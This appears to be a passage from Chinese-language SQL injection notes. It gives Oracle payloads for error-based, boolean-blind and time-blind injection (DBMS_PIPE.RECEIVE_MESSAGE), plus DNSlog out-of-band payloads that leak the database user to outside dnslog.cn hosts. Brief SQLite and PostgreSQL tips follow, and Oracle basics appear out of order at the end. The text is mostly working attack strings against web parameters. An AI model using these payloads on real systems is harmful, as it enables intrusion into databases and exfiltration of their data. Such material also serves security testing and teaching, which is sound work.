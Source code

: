 sname=1′ and (select upper(XMLType(chr(60)||chr(58)||(select user from dual)||chr(62))) from dual) is not null --

### 布尔注入

```text
jsp?id=1 and 1=(select decode(substr(user,1,1),'S',1,0) from dual) --
```

username=admin' and (select substr(user, 1, 1) from dual)='S' --

### 时间盲注

主要用DBMS\_PIPE.RECEIVE\_MESSAGE

即user的第一位是"A"时，延时5秒执行。

And 1=(select decode(substr(user,1,1),'A',DBMS\_PIPE.RECEIVE\_MESSAGE('a',5) ,0) from dual)

第二位是D时，延时5秒

And 1=(select decode(substr(user,2,1),'D',DBMS\_PIPE.RECEIVE\_MESSAGE('a',5) ,0) from dual)

news.jsp?id=1 and 1=(select decode(substr(user,1,1),'S',dbms\_pipe.receive\_message('RDS',5),0) from dual) –

### DNSlog注入

utl\_inaddr.get\_host\_address

select utl\_inaddr.get\_host\_address((select user from dual)||'.cbb1ya.dnslog.cn') from dual

SYS.DBMS\_LDAP.INIT 这个函数在 10g/11g 中是 public 权限.

SELECT DBMS\_LDAP.INIT((select user from dual)||'.24wypw.dnslog.cn',80) FROM DUAL;

## 拓展

## Sqlite注入

如果您的站点允许用户通过网页输入，并将输入内容插入到 SQLite 数据库中，这个时候您就面临着一个被称为 SQL 注入的安全问题。本章节将向您讲解如何防止这种情况的发生，确保脚本和 SQLite 语句的安全。

1.Sqlite-master:这个是内置系统表、相当于mysql的information\_schema

但是这里只存有表的信息，里面有个sql字段，有各个表的结构，有表名，字段名和类型

2.sqlite并不支持像mysql那样的注释，但是可以通过 — 方式增加DDL注释(写shell会用到)

## Postsql注入

PostgreSQL是一种特性非常齐全的自由软件的对象-关系型数据库管理系统（ORDBMS），4.2版本为基础的对象关系型数据库管理系统。

PostgreSQL安装后，默认的端口是：5432，默认的用户名是： postgres ，默认的数据库也是：postgres 。

+   注释符：--
+   延时函数：pg\_sleep(3)

**Oracle注入**

基础知识  
Oracle 使用查询语句获取数据时需要跟上表名，没有表的情况下可以使用dual，dual是Oracle的虚拟表，用来构成select的语法规则，Oracle保证dual里面永远只有一条记录。

Oracle的数据类型是强匹配的(MYSQL有弱匹配的味道)，所以在Oracle进行类似UNION查询数据时候必须让对应位置上的数据类型和表中的列的数据类型是一致的，也可以使用null代替某些无法快速猜测出数据类型的位置。

